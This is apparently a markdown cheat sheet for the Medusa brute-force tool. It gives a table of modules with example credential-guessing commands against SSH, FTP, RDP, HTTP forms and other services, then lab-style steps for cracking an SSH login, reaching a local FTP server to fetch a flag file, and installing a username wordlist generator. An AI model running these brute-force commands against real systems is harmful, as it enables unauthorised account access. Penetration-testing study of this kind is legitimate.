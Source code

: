 ## Medusa Module

| Medusa Module    | Service/Protocol                 | Description                                                                                 | Usage Example                                                                                                               |
| ---------------- | -------------------------------- | ------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| FTP              | File Transfer Protocol           | Brute-forcing FTP login credentials, used for file transfers over a network.                | `medusa -M ftp -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| HTTP             | Hypertext Transfer Protocol      | Brute-forcing login forms on web applications over HTTP (GET/POST).                         | `medusa -M http -h www.example.com -U users.txt -P passwords.txt -m DIR:/login.php -m FORM:username=^USER^&password=^PASS^` |
| IMAP             | Internet Message Access Protocol | Brute-forcing IMAP logins, often used to access email servers.                              | `medusa -M imap -h mail.example.com -U users.txt -P passwords.txt`                                                          |
| MySQL            | MySQL Database                   | Brute-forcing MySQL database credentials, commonly used for web applications and databases. | `medusa -M mysql -h 192.168.1.100 -u root -P passwords.txt`                                                                 |
| POP3             | Post Office Protocol 3           | Brute-forcing POP3 logins, typically used to retrieve emails from a mail server.            | `medusa -M pop3 -h mail.example.com -U users.txt -P passwords.txt`                                                          |
| RDP              | Remote Desktop Protocol          | Brute-forcing RDP logins, commonly used for remote desktop access to Windows systems.       | `medusa -M rdp -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| SSHv2            | Secure Shell (SSH)               | Brute-forcing SSH logins, commonly used for secure remote access.                           | `medusa -M ssh -h 192.168.1.100 -u root -P passwords.txt`                                                                   |
| Subversion (SVN) | Version Control System           | Brute-forcing Subversion (SVN) repositories for version control.                            | `medusa -M svn -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| Telnet           | Telnet Protocol                  | Brute-forcing Telnet services for remote command execution on older systems.                | `medusa -M telnet -h 192.168.1.100 -u admin -P passwords.txt`                                                               |
| VNC              | Virtual Network Computing        | Brute-forcing VNC login credentials for remote desktop access.                              | `medusa -M vnc -h 192.168.1.100 -P passwords.txt`                                                                           |
| Web Form         | Brute-forcing Web Login Forms    | Brute-forcing login forms on websites using HTTP POST requests.                             | `medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"`   |

Command to launch a brute-force attack against SSH service on given IP Address : `medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh `

Command to launch a Basic HTTP Authentication Attack : `medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET`

Command to test for empty or default passwords : `medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name`

## Web Services
To login into SSH Service where username is given and password is brute-forced using dictionary : `medusa -h <IP> -n <PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3`
Command for SSH to gain access : `ssh sshuser@<IP> -p PORT`

Targeting FTP Server : `medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5`  - Use this when into SSH Session of the Victim
To login into FTP Server : `ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost`
To download file from FTP Server use the command : `get flag.txt`
### Expanding the Attack Surface
To list all services and and open ports : `ntestat -tulpn | grep LISTEN`
For further recon, we can use : `nmap localhost`

## Username Anarchy - Custom Wordlists
`./username-anarchy -l` : List Username Anarchy

To install Username Anarchy : 
``` bash
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
```

